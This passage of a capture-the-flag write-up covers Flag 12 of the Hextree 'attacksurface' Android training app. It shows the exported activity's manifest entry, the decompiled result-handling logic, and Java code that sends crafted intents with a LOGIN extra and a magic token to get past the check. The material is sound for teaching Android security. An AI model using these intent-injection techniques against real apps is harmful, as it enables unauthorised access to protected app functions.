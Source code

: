 ```java
Intent recivedIntent = getIntent();  
Utils.showDialog(this,recivedIntent);  
  
//to return a result  
recivedIntent.putExtra("token",1094795585);  
setResult(RESULT_OK, recivedIntent);  
finish();
```

### Flag 12
#### Code analysis
```xml
<activity
       android:name="io.hextree.attacksurface.activities.Flag12Activity"
       android:exported="true"/>
```

and yes we can send it directly to an activity  FINALLY it felt like an eternity since the ;ast exported one 

```java
public void onCreate(Bundle bundle) {
        if (getIntent().getAction() == null) {
            Intent intent = new Intent("io.hextree.attacksurface.ATTACK_ME");
            intent.addFlags(8);
            startActivityForResult(intent, 42);   
            }
        }
    }
    public void onActivityResult(int i, int i2, Intent intent) {
        super.onActivityResult(i, i2, intent);
        if (intent == null || 
	        getIntent() == null || 
	        !getIntent().getBooleanExtra("LOGIN", false)) 
	        {
	            return;
        }
        this.f.addTag("LOGIN");
        if (intent.getIntExtra("token", -1) == 1094795585) {
            this.f.addTag(1094795585);
            success(this);
        }

```

we need to send an empty intent then it will send and intent and with action `"io.hextree.attacksurface.ATTACK_ME"`, Then we send an intent with Boolean `"LOGIN"` `true` and extra `"token"`  `1094795585`

#### Solution
```java
Intent wakeUp= new Intent();
wakeUp.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag12Activity");
startActivity(wakeUp);

Intent intent2 = new Intent();
intent2.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag12Activity");
intent2.putExtra("LOGIN", true);
startActivity(intent2);

Intent receivedIntent = getIntent();
receivedIntent.putExtra("token", 1094795585); // Magic number check        
setResult(RESULT_OK, receivedIntent);
```